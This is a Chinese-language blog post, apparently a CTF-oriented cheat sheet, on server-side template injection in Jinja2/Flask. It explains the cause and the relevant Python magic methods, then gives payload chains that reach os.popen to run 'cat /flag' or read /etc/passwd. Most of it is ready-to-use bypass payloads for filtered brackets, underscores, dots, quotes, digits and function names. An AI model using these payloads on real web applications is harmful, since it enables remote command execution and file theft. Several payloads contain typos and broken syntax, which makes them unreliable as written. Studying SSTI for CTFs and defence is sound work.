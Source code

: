 # SSTI注入篇


# SSTI 漏洞成因

ssti 服务端模板注入成因为：web 应用在使用框架（如 python 的 flask、jinjia2、django；java 的 freemarker、velocity；php 的 thinkphp、smarty 等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。

# SSTI 中常用魔术方法

- \_\_class\_\_ 返回一个实例所属的类
- \_\_mro\_\_ 查看类继承的所有父类，直到 object
- \_\_subclasses\_\_() 获取一个类的子类，返回的是一个列表
- \_\_bases\_\_ 以元组形式返回一个类直接继承的类
- \_\_init\_\_ 类实例创建之后调用，对当前对象的实例的初始化
- \_\_globals\_\_ 使用方式为**函数名**\.\_\_globals\_\_，返回一个当前空间下能使用的模块、方法和变量的字典
- \_\_getattribute\_\_ 当类被调用时，无条件进入此函数
- \_\_getattr\_\_ 访问对象中不存在的属性时调用
- \_\_dict\_\_ 返回所有属性，包括属性、方法等
- \_\_builtins\_\_ 查看当前所有导入的内建函数

# 攻击思路

- ## 获取基本类

```
dict //返回类中的函数和属性，父类子类互不影响
base //返回类的父类 python3
mro //返回类继承的元组，(寻找父类) python3
init //返回类的初始化方法  
subclasses() //返回类中仍然可用的引用 python3
globals //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
class //返回实例的对象，可以使类实例指向 Class，使用上面的魔术方法
```

```
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```

- ## 获取基本类后，继续获取基本类的子类

  ```
  object.subclasses()
  ```

- ## 找\_\_init\_\_类

  ```
  ''.__class__.__mro__[2].__subclasses__()[99].__init__
  ```

- ## 查看其引用\_\_builtins\_\_

  ```
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

- ## 寻找 keys 中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```
''.__class__.__mro[2].subclasses()[138].init.globals['builtins']['file']('/etc/passwd').read()
```

# 常用目标函数

```
file、subprocess.Popen、os.popen、exec、eval
```

# 绕过过滤方法

- ## 过滤中括号

  魔术方法\_\_getitem\_\_可替代中括号

  ```python
  # 当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}

  # 可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

- ## 过滤下划线

  ```python
  # 原 payload 被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.使用 attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时 get 方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__
  
  # 2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

  

- ## 过滤点

  ```python
  # 原 payload 被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.使用 attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}
  
  # 2. 使用中括号绕过，payload:
  {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

  

- ## 过滤大括号

  使用\{\%\%\}替代\{\{\}\}，payload:

  \{\% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) \%\}

- ## 过滤引号

  ```python
  # 当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.通过request.args的get传参输入引号内的内容，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时get传参?popen=popen&cmd=cat /flag
  
  # 2.通过request.form的post传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时post传参?popen=popen&cmd=cat /flag
  
  # 3.使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

  

- ## 过滤数字


  使用过滤器 length 绕过
  \{\% set a='aaa' | lenth \%\}{{ ().__class__.__base__.__subclasses__()[a]}}


- ## 过滤函数名

  ```python
  # 1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  # 2.使用16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  # 3.使用base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```
  
  


---

> 作者: Hinoatari  
> URL: http://localhost:1313/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

